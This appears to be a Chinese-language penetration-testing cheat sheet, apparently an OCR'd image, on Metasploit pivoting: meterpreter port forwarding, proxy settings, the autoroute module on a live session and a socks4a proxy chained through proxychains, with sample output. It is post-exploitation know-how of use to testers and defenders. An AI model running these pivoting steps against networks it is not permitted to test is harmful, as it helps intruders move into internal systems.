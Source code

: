 ```
    -R   Indicates a reverse port forward.

```

例子：

把远程主机172.16.2.12：80端口上的流量转发到本地8000端口

```
meterpreter > portfwd add -l 8000 -r 172.16.2.12 -p 80
[*] Forward TCP relay created: (local) :8000 -> (remote) 172.16.2.12:80
```

# msf 设置流量代理

```
setg  Proxies socks5:127.0.0.1:9050

setg  Proxies socks4:127.0.0.1:9050
```

# msf socks转发
当获得一个 Meterpreter 会话后，可以使用```multi/manage/autoroute```模块建立SOCKS proxy通道

```
msf5 exploit(multi/handler) > use multi/manage/autoroute

msf5 post(multi/manage/autoroute) > set session 1
session => 1

msf5 post(multi/manage/autoroute) > exploit

[!] SESSION may not be compatible with this module.
[*] Running module against CLIENT
[*] Searching for subnets to autoroute.
[+] Route added to subnet 192.168.120.0/255.255.255.0 from host's routing table.
[*] Post module execution completed

msf5 post(multi/manage/autoroute) > use auxiliary/server/socks4a

msf5 auxiliary(server/socks4a) > set srvhost 127.0.0.1
srvhost => 127.0.0.1

msf5 auxiliary(server/socks4a) > exploit -j
[*] Auxiliary module running as background job 0.

[*] Starting the socks4a proxy server
```

注意这里使用的是socks4协议

```
sudo bash -c 'echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf'
```
